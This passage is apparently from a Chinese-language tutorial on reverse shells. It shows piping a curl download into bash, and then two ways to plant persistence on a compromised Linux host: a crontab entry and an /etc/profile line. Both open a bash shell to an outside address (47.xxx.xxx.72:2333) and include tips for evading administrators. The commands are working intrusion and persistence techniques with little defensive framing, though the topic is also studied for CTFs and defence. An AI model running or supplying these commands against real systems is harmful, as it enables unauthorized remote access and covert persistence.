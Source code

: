 执行效果如下：

![image-20210505233325387](images/image-20210505233325387.png)

根据curl命令和Linux管道的作用，你不难理解这其中的原理。

Curl配合Bash反弹shell的方式在CTF题目中经常出现，`curl IP|bash` 中的IP可以是任意格式的，可以是十进制、十六进制、八进制、二进制等等。

### 将反弹shell的命令写入定时任务

我们可以在目标主机的定时任务文件中写入一个反弹shell的脚本，但是前提是我们必须要知道目标主机当前的用户名是哪个。因为我们的反弹shell命令是要写在 `/var/spool/cron/[crontabs]/<username>` 内的，所以必须要知道远程主机当前的用户名。否则就不能生效。

比如，当前用户名为root，我们就要将下面内容写入到 /var/spool/cron/root 中。(centos系列主机)

比如，当前用户名为root，我们就要将下面内容写入到 /var/spool/cron/crontabs/root 中。(Debian/Ubuntu系列主机)

```
*/1  *  *  *  *   /bin/bash -i>&/dev/tcp/47.xxx.xxx.72/2333 0>&1

#每隔一分钟，向47.xxx.xxx.72的2333号端口发送shell
```

### 将反弹shell的命令写入/etc/profile文件

将以下反弹shell的命写入/etc/profile文件中，/etc/profile中的内容会在用户打开bash窗口时执行。

```
/bin/bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1 &
# 最后面那个&为的是防止管理员无法输入命令
```

